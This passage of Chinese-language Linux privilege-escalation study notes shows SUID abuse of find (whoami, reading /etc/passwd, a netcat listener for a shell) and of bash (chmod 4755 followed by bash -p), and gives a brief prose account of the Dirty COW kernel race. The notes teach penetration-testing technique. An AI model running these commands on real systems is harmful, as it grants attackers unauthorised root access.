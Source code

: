 **find提权复现**

```
touch 1.txt ;
find 1.txt -exec whoami \;
find 1.txt -exec cat /etc/passwd \;
也可以使用nc 进行反弹，但是权限貌似还是普通用户
find 1.txt -exec nc -lvp port \;
```
![](./linux提权_image/37.png)

![](./linux提权_image/38.png)

**bash提权复现**

```
chmod 4755 /usr/bin/bash
bash -p
```

![](./linux提权_image/40.png)

### 脏牛提权

**大致原理:就是利用竞争条件往 /etc/passwd文件中写入了一个root用户**

```
大于2.6.22版本 (2007年发行，到2016年10月18日修复)
危害：低权限的用户可利用这一漏洞在本地进行提权
原理：linux内核的子系统在处理写入时复制至产生了竞争条件，恶意用户可利用此漏洞来获取高权限，对只读内存映射进行访问。
竞争条件:指的是任务执行顺序异常，可导致应用奔溃，或令攻击者有机可乘，进一步执行其他代码，利用这一漏洞，攻击者可在其目标系统提升权限，甚至可能获取到root权限。
```
